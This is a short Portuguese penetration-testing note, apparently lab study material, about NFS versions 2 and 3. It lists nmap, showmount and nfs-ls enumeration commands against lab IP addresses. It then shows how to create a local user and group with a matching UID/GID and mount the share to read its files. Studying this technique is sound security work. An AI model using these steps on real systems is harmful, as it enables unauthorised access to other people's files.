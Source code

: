 NFS
========================

# Resumo

## Enumeração

 A premissa do NFS é o mesmo do SMB, compartilhar arquivos por meio da rede, acontece que no caso do NFS não é utilizado autenticação e autorização em suas versões 3 e 2, somente um grau de seguranã maior na sua versão 4.
 
 Para explorar essa vulnerabilidade, primeiro precisamos fazer a enumeração do serviço por meio dos seguintes comandos:
 
 
     sudo nmap -sS -p 111,2049 --script nfs-showmount,nfs-ls 10.11.1.72
     #outra possibilidade também pode ser:
     sudo apt update
     sudo apt install libnfs-utils
     #Com isso a gente consegue fazer a enumeração das permissividades dos arquivos em modo recursivo
     nfs-ls -R nfs://10.11.1.72/home
     
     showmount -e 10.11.1.72
     
     nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254


![qownnotes-media-wrgegz](../../media/qownnotes-media-wrgegz.png)

## Exploitation

Assim que fizermos a enumeração, vamos identificar quais são os IDs pertinenetes aos arquivos lá constados no share via NFS, mas isso só é válido nas versões 2 e 3  do protocolo. A versão 4 já é mais segura! Basta adicionarmos o usuário e o grupo do usuário cujo uid e guid corespondem ao mesmo que foi identificao no momento da enumeração.

    sudo adduser --uid 1014 pwn
    sudo addgroup --gid 1014 pwn_group
    sudo usermod -a -G pwn_group pwn

    mount.nfs -o vers=3 10.11.1.72:/home /tmp/mount_dir